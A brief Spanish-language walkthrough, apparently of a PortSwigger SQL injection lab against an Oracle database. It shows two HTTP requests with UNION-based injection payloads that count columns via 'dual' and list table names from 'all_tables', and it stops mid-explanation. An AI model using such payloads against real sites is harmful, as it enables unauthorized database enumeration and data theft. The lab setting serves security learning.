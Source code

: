 * **Página Principal**

<img src="/img/articulos/sqli-portswigger/40.png" alt="">

* **Explotación**

Mismo lab que el anterior, pero se está empleando Oracle por detrás. Selecciono las dos columnas

```null
GET /filter?category=Gifts'+union+select+NULL,NULL+from+dual--+- HTTP/2
```

Listo todas las tablas de todas las bases de datos

```null
GET /filter?category=Gifts'+union+select+NULL,table_name+from+all_tables--+- HTTP/2
```

Para evitar ruido, también se puede filtrar por un propietario
